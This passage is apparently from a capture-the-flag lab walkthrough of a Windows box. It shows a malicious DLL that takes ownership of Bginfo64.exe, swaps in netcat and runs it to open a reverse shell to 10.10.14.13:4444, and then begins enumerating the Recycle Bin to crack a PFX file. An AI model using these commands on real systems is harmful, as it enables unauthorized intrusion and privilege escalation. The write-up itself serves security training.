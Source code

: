 It appears that the user is `ginawild`, and is part of the ITDep group. Also, this user has Write Owner privileges over the `Bginfo64.exe` file. This means we can take over as the owner of the file, replace it with `nc.exe` , change the permissions to let everyone execute it, and then execute it to gain a reverse shell as `ginawild`.&#x20;

Before doing so, we need to get the file over. SMB wasn't going to work as something is closing our connection.  `powershell` itself runs with very little allowance. So, let's re-use the file upload vulnerability we found earlier, and upload our `nc64.exe` shell to the website.&#x20;

My final DLL looks something like this:

{% code overflow="wrap" %}
```cpp
system("cmd.exe /c takeown /F C:\\share\\Bginfo64.exe");
system("cmd.exe /c cacls C:\\share\\Bginfo64.exe /E /G ginawild:F");
system("cmd.exe /c copy C:\\inetpub\\wwwroot\\Data\\Sites\\1\\Media\\nc.exe C:\\share\\Bginfo64.exe");
system("cmd.exe /c C:\\share\\Bginfo64.exe -e cmd.exe 10.10.14.13 4444");
```
{% endcode %}

After waiting for a little bit, we will get a shell back!

<figure><img src="../../../.gitbook/assets/image (2) (4) (1).png" alt=""><figcaption></figcaption></figure>

We can now grab the user flag.&#x20;

## Bpassrunner Shell

### Recycle Bin --> PFX Crack

Within the main `C:\` directory, there are some files within the Recycle Bin.&#x20;

```
c:\>dir /a 
 Volume in drive C has no label.
 Volume Serial Number is BE61-D5E0

 Directory of c:\

02/14/2022  08:48 PM    <DIR>          $Recycle.Bin
04/19/2022  02:24 PM    <DIR>          $WinREAgent

c:\$Recycle.Bin>dir /a
dir /a
 Volume in drive C has no label.
 Volume Serial Number is BE61-D5E0

 Directory of c:\$Recycle.Bin

02/14/2022  08:48 PM    <DIR>          .
04/19/2022  02:45 PM    <DIR>          ..
02/14/2022  08:48 PM    <DIR>          S-1-5-18
10/07/2021  12:51 AM    <DIR>          S-1-5-21-3783586571-2109290616-3725730865-2359
10/13/2022  09:11 PM    <DIR>          S-1-5-21-3783586571-2109290616-3725730865-2663
```